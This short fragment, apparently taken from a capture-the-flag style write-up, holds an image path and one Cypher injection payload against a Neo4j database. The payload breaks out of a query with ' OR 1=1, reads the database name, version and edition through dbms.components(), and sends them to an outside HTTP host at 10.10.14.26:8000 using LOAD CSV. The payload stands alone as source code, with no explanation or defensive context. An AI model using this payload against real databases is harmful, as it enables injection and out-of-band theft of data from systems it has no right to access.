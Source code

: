 ``` ' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.26:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // ```





